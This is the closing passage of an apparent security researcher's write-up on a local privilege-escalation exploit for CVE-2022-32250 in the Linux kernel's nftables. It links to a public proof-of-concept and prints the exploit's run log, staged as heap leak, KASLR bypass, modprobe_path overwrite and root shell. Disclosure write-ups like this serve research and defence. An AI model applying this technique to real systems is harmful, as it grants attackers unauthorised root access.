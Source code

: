 Now it is a matter of placing the fake modprobe at this path and executing the `trigger` binary.

## Proof-of-Concept <a name="poc"></a>
The PoC is available at [https://github.com/ysanatomic/CVE-2022-32250-LPE](https://github.com/ysanatomic/CVE-2022-32250-LPE).

```txt
# ./exploit
[*] CVE-2022-32250 LPE Exploit by @YordanStoychev

uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
[*] Setting up user+network namespace sandbox

uid=0(root) gid=0(root) groups=0(root)

[+] STAGE 1: Heap leak
[*] Socket is opened.
[*] Table table1 created.
[*] Socket is opened.
[*] Table table2 created.
[*] Socket is opened.
[*] Table table3 created.
[*] Set created
[*] Set with UAF'd expression created
[*] Set with UAF'd expression created
[&] heap_addr: 0xffff91d97f89f398
[&] heap_base: 0xffff91d900000000

[+] STAGE 2: KASLR bypass
[*] Set created
[*] Set with UAF'd expression created
[*] Set with UAF'd expression created
[&] kaddr: 0xffffffff9f54bef0
[&] kbase: 0xffffffff9f000000

[+] STAGE 3: modprobe_path overwrite
[*] Set created
[*] Set with UAF'd expression created
[*] Set with UAF'd expression created

[*] STAGE 4: Escalation
[*] Setting up the fake modprobe...
[*] modprobe_path: /tmp/ّprobe
[*] Setting up the shell...
[*] Triggering the modprobe...
[*] Executing shell...
/ #
```

## Closing Remarks <a name="closing"></a>
Analysing and Exploiting this vulnerability was lots of fun. Initially, I planned to do everything from analysing it to making the exploit live on stream but I started doing more and more off-stream and then I just finished it up off-stream. I might make one last stream/video where I go over the final exploit in detail.

Took me some time to sit down and finish up the write-up - but better late than never.

If you have any questions feel free to hit me up on Twitter or by email.
